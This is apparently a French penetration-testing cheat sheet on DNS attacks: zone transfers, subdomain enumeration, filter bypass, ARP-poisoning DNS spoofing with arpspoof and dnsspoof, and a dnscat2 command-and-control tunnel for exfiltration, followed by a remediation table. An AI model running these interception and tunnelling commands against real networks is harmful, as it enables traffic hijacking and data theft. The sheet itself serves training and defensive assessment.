

Cette documentation détaille les vecteurs d'attaque et les configurations critiques liés aux services DNS lors d'une phase de reconnaissance.



## Zone Transfer (AXFR)

L'autorisation des transferts de zone permet à un attaquant de récupérer l'intégralité des enregistrements DNS d'un domaine.

### Exploitation

```bash
dig axfr @nameserver cible.com
host -l cible.com nameserver
```

> [!warning]
> Prérequis : Nécessite une visibilité réseau sur le port 53 (UDP/TCP).

## Résolution récursive ouverte

Un serveur DNS configuré pour répondre aux requêtes récursives provenant de sources externes peut être utilisé pour des attaques par amplification DDoS.

### Exploitation

```bash
dig @dns-server cible.com
nslookup cible.com dns-server
```

## Enregistrements DNS sensibles

L'analyse des enregistrements permet de cartographier l'infrastructure et les politiques de sécurité du domaine.

### Exploitation

```bash
dig MX cible.com
dig TXT cible.com
dig ANY cible.com
```

> [!tip]
> Toujours vérifier les enregistrements TXT pour les clés API ou configurations cloud.

## Wildcard DNS

L'utilisation d'un enregistrement wildcard (`*.domaine.com`) peut faciliter l'usurpation de sous-domaines et le phishing.

### Exploitation

```bash
dig nimportequoi.cible.com
```

## Sous-domaines exposés

L'identification de sous-domaines est une étape clé de l'**Infrastructure Assessment** et de l'**Active Directory Reconnaissance**.

### Outils d'énumération

| Outil | Type | Usage |
| :--- | :--- | :--- |
| **sublist3r** | Actif/Passif | Énumération de sous-domaines |
| **amass** | Actif/Passif | Découverte d'assets DNS |
| **crt.sh** | Passif | Recherche dans les certificats SSL |

```bash
sublist3r -d cible.com
amass enum -d cible.com
```

> [!danger]
> Attention : Le scan agressif (brute-force) peut déclencher des alertes IDS/IPS.

## Analyse des fichiers de configuration (bind, unbound)

L'accès aux fichiers de configuration permet d'identifier des vulnérabilités de configuration statiques.

### Fichiers cibles
- **BIND**: `/etc/bind/named.conf`, `/etc/bind/named.conf.options`
- **Unbound**: `/etc/unbound/unbound.conf`

### Points de contrôle
- `allow-query`: Vérifier si l'accès est restreint aux réseaux internes.
- `allow-transfer`: S'assurer que le transfert de zone est limité aux IPs des serveurs secondaires (ACL).
- `recursion`: Doit être désactivé sur les serveurs faisant autorité.

## Utilisation d'outils d'automatisation avancés (nmap scripts dns-*)

Nmap permet d'automatiser l'énumération DNS via ses scripts NSE.

### Exploitation

```bash
nmap -p 53 --script dns-brute,dns-zone-transfer,dns-nsid,dns-recursion <target_ip>
```

## Techniques de bypass de filtrage DNS

En cas de filtrage par pare-feu applicatif (WAF) ou filtrage DNS, le bypass repose sur la manipulation des requêtes.

### Méthodes
- **DNS over HTTPS (DoH)**: Utiliser des requêtes chiffrées pour contourner l'inspection de paquets.
- **Fragmentation**: Envoyer des requêtes fragmentées pour échapper aux signatures IDS.
- **Utilisation de serveurs DNS publics**: `8.8.8.8` ou `1.1.1.1` pour éviter les restrictions locales.

## DNS Spoofing via ARP Poisoning (MITM)

Le spoofing DNS permet de rediriger les requêtes de la victime vers un serveur malveillant.

### Exploitation
1. **ARP Poisoning**: `arpspoof -i eth0 -t <victime_ip> <gateway_ip>`
2. **DNS Spoofing**: Utiliser `ettercap` ou `dnsspoof` pour intercepter et modifier les réponses DNS.

```bash
# Configuration du fichier hosts pour dnsspoof
echo "* A 192.168.1.50" > dns_spoof.conf
dnsspoof -i eth0 -f dns_spoof.conf
```

## Exfiltration de données via DNS Tunneling

Le DNS Tunneling permet d'encapsuler des données dans des requêtes DNS (souvent TXT ou sous-domaines) pour contourner les pare-feux.

### Outils
- **dnscat2**: Permet de créer un tunnel C2 via le protocole DNS.
- **iodine**: Tunnel IP sur DNS.

```bash
# Côté serveur (attaquant)
dnscat2-server --dns domain=tunnel.cible.com

# Côté client (victime)
dnscat2-client tunnel.cible.com
```

## Cache Poisoning

Le **DNS Cache Poisoning** consiste à injecter des entrées falsifiées dans le cache d'un serveur DNS pour rediriger le trafic.

### Exploitation

```bash
# Utilisation de dig pour tester la réponse d'un serveur
dig @dns-server cible.com A
```

> [!danger]
> Danger : Le DNS Cache Poisoning est complexe à réaliser en conditions réelles sans accès MITM.

## Matrice de remédiation

| Problème | Solution |
| :--- | :--- |
| Zone Transfer | Restreindre les transferts à des serveurs autorisés |
| Résolution récursive | Bloquer la résolution récursive pour les requêtes externes |
| Enregistrements sensibles | Réduire la visibilité des enregistrements internes |
| Wildcard DNS | Désactiver si non nécessaire |
| Sous-domaines exposés | Monitorer et sécuriser les sous-domaines |
| Cache Poisoning | Activer **DNSSEC** |
| DNS Tunneling | Inspecter le trafic DNS pour détecter des requêtes anormales |

Ces techniques s'inscrivent dans une démarche globale de **DNS Enumeration** et de **Network Scanning**.